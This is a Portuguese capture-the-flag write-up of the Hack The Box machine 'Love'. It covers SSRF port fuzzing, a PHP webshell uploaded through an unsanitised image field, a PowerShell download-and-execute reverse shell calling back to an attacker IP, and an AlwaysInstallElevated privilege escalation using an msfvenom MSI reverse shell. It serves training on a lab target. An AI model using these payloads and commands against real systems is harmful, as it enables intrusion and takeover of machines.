








# Writeup love - PT-BR

## Scan

```bash
# Nmap 7.92 scan initiated Mon Dec 26 17:19:49 2022 as: nmap -sVC -Pn -v -T5 -p 80,135,139,445,3306,5000,5040,5985,5986,7680 -oN fullnmap.txt love.htb
Nmap scan report for love.htb (10.129.48.103)
Host is up (0.22s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   FourOhFourRequest: 
|_    Host '10.10.14.85' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp open  unknown
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2022-12-26T22:44:24+00:00; +21m35s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a 2ba6 8ef4 7568 f99d d6f4 aaa2 03b5
|_SHA-1: 84ef d922 a70a 6d9d 82b8 5bb3 d04f 066b 12f8 6e73
|_http-title: Not Found
7680/tcp open  pando-pub?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=12/26%Time=63AA1E16%P=x86_64-pc-linux-gnu%r(F
SF:ourOhFourRequest,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.85'\x20is\x
SF:20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-26T14:44:13-08:00
| smb2-time: 
|   date: 2022-12-26T22:44:14
|_  start_date: N/A
|_clock-skew: mean: 2h21m36s, deviation: 4h00m03s, median: 21m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 26 17:22:50 2022 -- 1 IP address (1 host up) scanned in 180.99 seconds
```

## Enumeration and Exploitation

    De início, adicionamos o host no arquivo **/etc/hosts** :

```bash
echo "10.129.48.103   love.htb" >> /etc/hosts
```

    Feito isso, podemos partir para enumeração de diretórios/arquivos e subdominios.

> Enum Diretórios

```bash
└─$ ffuf -u http://love.htb/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt             

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://love.htb/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

cgi-bin                 [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 165ms]
images                  [Status: 200, Size: 1644, Words: 136, Lines: 20, Duration: 171ms]
admin                   [Status: 200, Size: 6198, Words: 767, Lines: 170, Duration: 171ms]
includes                [Status: 200, Size: 2257, Words: 212, Lines: 23, Duration: 172ms]
plugins                 [Status: 200, Size: 2486, Words: 250, Lines: 24, Duration: 224ms]
Admin                   [Status: 200, Size: 6198, Words: 767, Lines: 170, Duration: 158ms]
webalizer               [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 155ms]
Images                  [Status: 200, Size: 1644, Words: 136, Lines: 20, Duration: 167ms]
phpmyadmin              [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 154ms]
icons                   [Status: 200, Size: 74798, Words: 7383, Lines: 1005, Duration: 190ms]
Includes                [Status: 200, Size: 2257, Words: 212, Lines: 23, Duration: 172ms]
ADMIN                   [Status: 200, Size: 6198, Words: 767, Lines: 170, Duration: 159ms]
dist                    [Status: 200, Size: 1385, Words: 155, Lines: 19, Duration: 178ms]
IMAGES                  [Status: 200, Size: 1644, Words: 136, Lines: 20, Duration: 166ms]
tcpdf                   [Status: 200, Size: 2706, Words: 237, Lines: 25, Duration: 190ms]
licenses                [Status: 403, Size: 417, Words: 37, Lines: 12, Duration: 155ms]
server-status           [Status: 403, Size: 417, Words: 37, Lines: 12, Duration: 154ms]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 155ms]
PlugIns                 [Status: 200, Size: 2486, Words: 250, Lines: 24, Duration: 205ms]
INCLUDES                [Status: 200, Size: 2257, Words: 212, Lines: 23, Duration: 160ms]
Plugins                 [Status: 200, Size: 2486, Words: 250, Lines: 24, Duration: 211ms]
con                     [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 156ms]
aux                     [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 155ms]
prn                     [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 154ms]
server-info             [Status: 403, Size: 417, Words: 37, Lines: 12, Duration: 156ms]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 158ms]
Con                     [Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 156ms]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 156ms]
:: Progress: [62284/62284] :: Job [1/1] :: 257 req/sec :: Duration: [0:04:04] :: Errors: 3 ::
```

> Enum Subdomínio

```bash
└─$ ffuf -u http://love.htb/ -H "Host: FUZZ.love.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 4388

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://love.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.love.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 4388
________________________________________________

staging                 [Status: 200, Size: 5357, Words: 1543, Lines: 192, Duration: 157ms]
:: Progress: [114441/114441] :: Job [1/1] :: 147 req/sec :: Duration: [0:13:25] :: Errors: 0 ::
```

    Para acessar o subdomínio, precisamos adicionar **staging.love.htb** em **/etc/hosts**, dessa maneira o domínio passará a ser acessível.

    Uma vez acessado, podemos notar que existe uma ferramenta de scanner de url que possui uma página beta habilitada.



    Podemos ver se essa consegue fazer consultas em suas próprias portas internas, dessa maneira testamos a existência de SSRF.



    Com a página possuindo uma vulnerabilidade podemos fazer um fuzzing pelas portas encontradas na máquina e ver quais possuem alguma informação relevante. Esse passo pode ser facilmente feito via intruder utilizando o BURP PRO, porém, como possuo apenas a versão comunity (e o intruder nessa versão é muito lento) utilizarei uma técnica utilizando o burp e o FFUF.

    Para essa técnica funcionar é necessário seguir os seguintes passo:

1. Capture o request via burp

2. Coloque o request em um arquivo

3. Modifique o arquivo colocando "FUZZ" onde é necessário

4. Ataque via FFUF passando as requisições via proxy

> Arquivo request com "FUZZ" no lugar onde fica as portas

```textile
POST /beta.php HTTP/1.1
Host: staging.love.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://staging.love.htb
Connection: close
Referer: http://staging.love.htb/beta.php
Upgrade-Insecure-Requests: 1

file=http://127.0.0.1:FUZZ&read=Scan+file
```

    Tendo alterado o arquivo, podemos pegar sua url e fazer o ataque via FFUF passando o tráfego pelo burp para melhor visualização via RENDER.

```bash
└─$ ffuf -w ports -u "http://staging.love.htb/beta.php" -request request -x http://127.0.0.1:8080                                    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://staging.love.htb/beta.php
 :: Wordlist         : FUZZ: ports
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
 :: Header           : Origin: http://staging.love.htb
 :: Header           : Referer: http://staging.love.htb/beta.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Host: staging.love.htb
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Data             : file=http://127.0.0.1:FUZZ&read=Scan+file
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

80                      [Status: 200, Size: 9385, Words: 1901, Lines: 337, Duration: 332ms]
443                     [Status: 200, Size: 5466, Words: 1296, Lines: 224, Duration: 334ms]
5985                    [Status: 200, Size: 5312, Words: 1266, Lines: 218, Duration: 341ms]
5986                    [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 327ms]
5000                    [Status: 200, Size: 9591, Words: 2385, Lines: 411, Duration: 365ms]
7680                    [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 366ms]
445                     [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 410ms]
3306                    [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 414ms]
17458                   [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2556ms]
139                     [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2556ms]
6445                    [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2584ms]
14937                   [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2587ms]
2698                    [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2600ms]
14749                   [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2601ms]
13529                   [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2615ms]
2776                    [Status: 200, Size: 4997, Words: 1248, Lines: 212, Duration: 2618ms]
:: Progress: [18/18] :: Job [1/1] :: 11 req/sec :: Duration: [0:00:20] :: Errors: 2 ::
```

**OBS:** O arquivo "ports" possui as portas identificadas no scan.

    Com o ataque terminado podemos notar que a porta 5000 possui algumas credenciais de acesso admin.



    Tendo as credenciais de admin, podemos logar na página de ADMIN em **love.htb**.

> Credenciais -> admin:@LoveIsInTheAir!!!!



    Logado no painel, podemos notar que o campo que nos permite modificar informações do usuário nos permite fazer upload de um arquivo de foto, porém o campo não tem sanitização, o que nos permite fazer upload de um shell simples me php.

> Arquivo Shell

```php
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```



    Para acessarmos o arquivo, podemos acessar a pasta de imagens no host http://love.htb/images e acessar o arquivo rce.php.



    Com o rce, podemos utilizar dele para conseguir uma reverse shell. Para isso usaremos a shell em powershell do nishang (utilizados também em writeups anteriores).

    Para que a shell funcione, precisamos adicionar o seguinte comando no final do arquivo:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress MACHINE_IP -Port 1234
```

    Com o comando adicionado, podermos usar a shell para baixar o arquivo e esperar a shell ser executada.

> Comando para baixar a shell

```powershell
powershell iex(new-object net.webclient).downloadstring('http://IP/Invoke-PowerShellTcp.ps1')
```



> User Flag

```powershell
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.48.103] 56194
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>cd ../../../../Users/Phoebe/Desktop
PS C:\Users\Phoebe\Desktop> type user.txt
a8f54c2d2a9efd46941d9f0f803e2c95
```

## Privilege Escalation

    Para o privilege escalation podemos baixar o winpeas na máquina e ver o que ele nos traz.

    Após um tempo rodando o script, podemos encontrar o seguinte trecho no output:

```powershell
???????????? Checking AlwaysInstallElevated
?  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

    Com a política AlwaysInstallElevated habilitada é possível criarmos arquivos **.msi** e executarmos com permissão de system.

**Referência para o PrivEsc:** [Windows Privilege Escalation - AlwaysInstallElevated Policy - StefLan&#039;s Security Blog](https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/)

    Para criarmos um arquivo que executará um shell reversa usaremos o **msfvenom** e o **Villain** para criar a reverse shell (pode ser usado a shell do nishang também).

> Gerando shell com Villain

```python
Villain > generate os=windows lhost=tun0 encode
```

    O comando acima gera um reverse shell encodada com bas64 que será usada no msfvenom para criar o arquivo msi.

>    Gerar MSI

```bash
msfvenom -f msi -p windows/exec CMD="[Villain Reverse Shell]" > shell.msi
```

    Com o arquivo gerado, podemos baixá-lo na máquina e executar.

> Comando para PrivEsc:
> 
> ```powershell
> msiexec /quiet /qn /i FILE.msi
> ```

    Download e execução:

```powershell
PS C:\Users\Phoebe\Desktop> wget http://10.10.14.85/shell.msi -OutFile shell.msi
PS C:\Users\Phoebe\Desktop> msiexec /quiet /qn /i shell.msi
```

    Reverse Shell:



> Root Flag

```powershell
LOVE\Phoebe> ls
Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                                                                                       
----                 -------------         ------ ----                                                                                                                                       
-ar---        12/27/2022  12:48 PM             34 root.txt                                                                                                                                   

LOVE\Phoebe> type root.txt
9e75984b941942555488b44e7f53ce31
```
